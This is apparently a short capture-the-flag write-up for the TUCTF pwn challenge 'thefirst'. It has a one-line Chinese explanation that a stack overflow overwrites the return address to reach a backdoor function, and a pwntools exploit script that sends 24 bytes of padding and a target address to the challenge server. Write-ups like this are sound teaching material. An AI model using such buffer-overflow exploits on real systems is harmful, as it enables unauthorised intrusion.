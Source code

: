 ### thefirst

> [附件](./thefirst)

溢出覆盖返回地址跳转到后门函数

[Exploit script:](./tf.py)

```python
from pwn import *

p = remote('chal.tuctf.com',30508)

p.sendline('A'*24+p32(0x80491F6))

p.interactive()
```

